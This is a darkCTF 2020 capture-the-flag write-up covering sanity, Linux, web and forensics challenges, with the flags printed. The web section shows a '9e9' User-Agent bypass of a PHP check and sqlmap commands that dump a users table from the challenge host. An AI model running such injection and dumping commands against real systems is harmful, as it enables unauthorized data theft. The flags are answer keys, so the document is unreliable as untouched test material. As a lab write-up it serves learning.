 ## Misc

### sanity_check
![](img/sanity_check02.png)

We got our first flag from Discord

![](img/sanity_check.png)

**Flag: darkCTF{w3lc0me_t0_darkCTf_h4v3_fUn}**

## Linux
### linux starter
![](img/linux_starter.png)

Okay lets fire up the terminal

```shell
root@*****:/home/z3n# ssh wolfie@linuxstarter.darkarmy.xyz -p 8001                                                  
The authenticity of host '[linuxstarter.darkarmy.xyz]:8001 ([52.66.238.72]:8001)' can't be established.                 
ECDSA key fingerprint is SHA256:c89dVKmOwWcuk3nhpaDFytMNR3U8Ph44wwIjTm8VECY.                                            
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                                
Warning: Permanently added '[linuxstarter.darkarmy.xyz]:8001,[52.66.238.72]:8001' (ECDSA) to the list of known hosts.   
Password: wolfie
wolfie@9ad161dbc9ce:~$
wolfie@9ad161dbc9ce:~$ ls
bin  imp                                                                                                                
wolfie@9ad161dbc9ce:~$ cd imp/
wolfie@9ad161dbc9ce:~/imp$ ls
flag.txt                                                                                                                
wolfie@9ad161dbc9ce:~/imp$ cat flag.txt                                                                                 
darkCTF{h0pe_y0u_used_intended_w4y}                                                                                     
```
**Flag: darkCTF{h0pe_y0u_used_intended_w4y}**

## Web
### Source
![](img/source00.png)

They gave us a source File:
```php
<html>
    <head>
        <title>SOURCE</title>
        <style>
            #main {
    height: 100vh;
}
        </style>
    </head>
    <body><center>
<link rel="stylesheet" href="https://www.w3schools.com/w3css/4/w3.css">
<?php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
          } else {
                 echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ohhhhh!!! Very Close  </p></div>');
          }
      } else {
             echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Nice!!! Near But Far</p></div>');
      }
} else {
    echo ('<div class="w3-panel w3-red"><h3>Wrong!</h3>
  <p>Ahhhhh!!! Try Not Easy</p></div>');
}
?>
</center>
<!-- Source is helpful -->
    </body>
</html>
```
and for the flag we need to validate:
```php
$web = $_SERVER['HTTP_USER_AGENT'];
if (is_numeric($web)){
      if (strlen($web) < 4){
          if ($web > 10000){
                 echo ('<div class="w3-panel w3-green"><h3>Correct</h3>
  <p>darkCTF{}</p></div>');
```
from a google search I found out you can pass '9e9' as User-Agent, which is a numeric, has only length of 3, and its equal to 9000000000 which is obviously more than 10000.
I edited the user-agent to '9e9 'and sent a new request from my firefox and got the flag.

![](img/source01.png)

**Flag: darkCTF{changeing_http_user_agent_is_easy}**


### Apache Logs
![](img/apache_logs.png)

From the logs we could see some SQLi payloads
after URL Decoding;
![](img/apache_logs01.png)

Then I used cyberchef to decode from decimal to ascii
![](img/apache_logs02.png)

**Flag: DarkCTF{5ql_1nj3ct10n}**


### Simple_SQL
![](img/simple_sql00.png)

I visted the website and from the source code they mentioned to use 'Try id as parameter':
```html
<!DOCTYPE html>
<html>
<head>
<title>Simple SQL</title>
<style>
</style>
</head>
<body bgcolor=black>
<center><font color=red class=title>Welcome Players To My Safe House </font></center> <br>
<br><!-- Try id as parameter  --> 
</body>
</html>
```
Let's start from 1
![](img/simple_sql01.png)

from the 9th entry we got the flag
![](img/simple_sql.png)
**Flag: darkCTF{it_is_very_easy_to_find}**

### So_Simple
![](img/so_simple.png)  
Like previous challenge they gave a clue 'Try id as parameter'.
Okay, I was able to produce a sql error in /?id='
Lets try with SQLi. They mentioned 'You may get flag manually'. I was lazy and used SQLMap, maybe this is not the intented way to solve.
Here is the commands I used:
```shell
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dbs
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --tables -D id14831952_security
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --columns -D id14831952_security -T users
sqlmap -u http://web.darkarmy.xyz:30001/?id=8 --dump -D id14831952_security -T users
```
we got the flag from users table  
![](img/so_simple01.png)  
**Flag: darkCTF{uniqu3_ide4_t0_find_fl4g}**

## Forensics
### Wolfie's Contact
![](img/contact00.png)  
There is a attached file: wolfie_evidence.rar. It contains an E01 file.  
What's a E01 File?
> The E01 (Encase Image File Format) file keeps backup of various types of acquired digital evidences that includes disk imaging, storing of logical files, etc

okay, we have to do some digging on this file
```bash
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# mkdir /mnt/ewf
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# ewfmount wolfie_evidence.E01 /mnt/ewf
root@z3n:/home/z3n/CTF/darkCTF_2020/forensics# cd /mnt/ewf
root@z3n:/mnt/ewf# ls
ewf1
root@z3n:/mnt/ewf# mkdir /mnt/windows_mount
root@z3n:/mnt/ewf# mount -o loop,ro,show_sys_files,streams_interface=windows /mnt/ewf/ewf1 /mnt/windows_mount
root@z3n:/mnt/ewf# cd /mnt/windows_mount
root@z3n:/mnt/windows_mount# cd contacts
root@z3n:/mnt/windows_mount/contacts# ls -la
```
![](img/contact01.png)  
I realized the flags are splitted in Notes section in each contact.

```bash
root@z3n:/mnt/windows_mount/contacts# cat * | grep "Notes"
```  
![](img/contact02.png)

**Flag: darkCTF{C0ntacts_4re_1mp0rtant}**

Resource: https://digital-forensics.sans.org/media/sift_cheat_sheet.pdf

<!--
ToDo: add Official and Community Writeup links
-->
